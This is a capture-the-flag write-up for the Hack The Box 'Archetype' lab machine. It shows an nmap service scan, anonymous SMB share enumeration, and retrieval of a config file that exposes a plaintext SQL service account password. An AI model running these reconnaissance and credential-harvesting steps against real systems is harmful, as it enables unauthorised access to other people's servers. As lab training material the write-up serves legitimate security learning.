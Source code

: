 # Archetype Write-up

<img src="https://labs.hackthebox.com/storage/avatars/b39473da3f36b9b5718d6c76eb573a10.png" width="200" height="200">

`nmap -sC -sV archetype.htb`

     ┌──(kali㉿kali)-[~]
     └─$ nmap -sC -sV archetype.htb
     PORT     STATE SERVICE      VERSION
     135/tcp  open  msrpc        Microsoft Windows RPC
     139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
     445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
     1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
     |_ssl-date: 2024-02-06T07:28:27+00:00; 0s from scanner time.
     | ms-sql-ntlm-info: 
     |   10.129.158.26:1433: 
     |     Target_Name: ARCHETYPE
     |     NetBIOS_Domain_Name: ARCHETYPE
     |     NetBIOS_Computer_Name: ARCHETYPE
     |     DNS_Domain_Name: Archetype
     |     DNS_Computer_Name: Archetype
     |_    Product_Version: 10.0.17763
     | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
     | Not valid before: 2024-02-06T07:25:49
     |_Not valid after:  2054-02-06T07:25:49
     | ms-sql-info: 
     |   10.129.158.26:1433: 
     |     Version: 
     |       name: Microsoft SQL Server 2017 RTM
     |       number: 14.00.1000.00
     |       Product: Microsoft SQL Server 2017
     |       Service pack level: RTM
     |       Post-SP patches applied: false
     |_    TCP port: 1433
     Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
     
     Host script results:
     | smb-os-discovery: 
     |   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
     |   Computer name: Archetype
     |   NetBIOS computer name: ARCHETYPE\x00
     |   Workgroup: WORKGROUP\x00
     |_  System time: 2024-02-05T23:28:14-08:00
     |_clock-skew: mean: 1h36m00s, deviation: 3h34m42s, median: 0s
     | smb2-security-mode: 
     |   3:1:1: 
     |_    Message signing enabled but not required
     | smb-security-mode: 
     |   account_used: guest
     |   authentication_level: user
     |   challenge_response: supported
     |_  message_signing: disabled (dangerous, but default)
     | smb2-time: 
     |   date: 2024-02-06T07:28:10
     |_  start_date: N/A

`smbclient -N -L \\\\10.129.230.97`

     
    
            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            backups         Disk      
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
    tstream_smbXcli_np_destructor: cli_close failed on pipe srvsvc. Error was NT_STATUS_IO_TIMEOUT
    Reconnecting with SMB1 for workgroup listing.
    do_connect: Connection to 10.129.230.97 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
    Unable to connect with SMB1 -- no workgroup available

`smbclient -N \\\\10.129.230.97\\backups`
                                                                                                                                                                                                                                                
    Try "help" to get a list of possible commands.
    smb: \> dir
      .                                   D        0  Mon Jan 20 07:20:57 2020
      ..                                  D        0  Mon Jan 20 07:20:57 2020
      prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020
    
                    5056511 blocks of size 4096. 2617662 blocks available
    smb: \> get prod.dtsConfig
    getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
    smb: \> exit

`cat prod.dtsConfig `

    <DTSConfiguration>
        <DTSConfigurationHeading>
            <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
        </DTSConfigurationHeading>
        <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
            <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
        </Configuration>
    </DTSConfiguration>     
